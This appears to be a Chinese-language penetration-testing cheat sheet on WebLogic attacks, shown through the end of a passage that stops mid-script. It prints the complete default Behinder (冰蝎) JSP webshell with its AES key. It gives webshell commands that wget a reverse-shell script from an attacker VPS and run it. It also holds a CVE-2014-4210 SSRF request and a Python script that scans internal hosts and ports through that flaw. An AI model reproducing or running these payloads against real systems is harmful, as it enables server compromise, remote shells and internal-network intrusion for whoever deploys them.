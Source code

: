```jsp
%>
```

### 冰蝎 JSP Webshell
- 冰蝎3.x默认JSP Webshell
> shell.jsp
```jsp
<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if (request.getMethod().equals("POST")){String k="e45e329feb5d925b";/*该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond*/session.putValue("u",k);Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec(k.getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);}%>
```
使用命令下载反弹shell脚本并执行
```shell
python -m http.server

http://targetIP:7001/cmd/cmd.jsp?cmd=wget vps-ip:port:8000/6.sh -O /tmp/6.sh

http://targetIP:7001/cmd/cmd.jsp?cmd=/bin/bash /tmp/6.sh
```


## CVE-2014-4210
- Weblogic_ssrf漏洞, 利用可以发送任意HTTP请求, 进而攻击内网中Redis, Fastcgi等脆弱组件
- 漏洞产生于`/uddiexplorer/SearchPublicRegistries.jsp`页面中
```
http://47.104.255.11:7001/uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name
&txtSearchname=sdf
&txtSearchkey=
&txtSearchfor=
&selfor=Business+location
&btnSubmit=Search
&operator=http://127.0.0.1:7001
```
当http端口存活时会显示`404 not Found`

### 内网存活主机探测
- 随机访问一个端口, 返回内容包含`could not connect:`
- 一个非http协议, 返回内容包含`did not have a valid SOAP`
- 不存活的主机, 返回内容包含`No route to host`
- 基于以上页面返回的内网存活探测脚本
```
import contextlib
import itertools
import requests
url = "http://122.114.225.18:4012/uddiexplorer/SearchPublicRegistries.jsp"

ports = [6378,6379,22,25,80,8080,8888,8000,7001,7002]

for i, port in itertools.product(range(1, 255), ports):
    params = dict(
        rdoSearch="name",
        txtSearchname="sdf",
        selfor="Business+location",
        btnSubmit="Search",
        operator=f"http://172.19.0.{i}:{port}",
    )
    with contextlib.suppress(Exception):
        r = requests.get(url, params=params, timeout = 3)
        # print(r.text)
        if 'could not connect over HTTP to server' not in r.text and 'No route to host' not in r.text:
```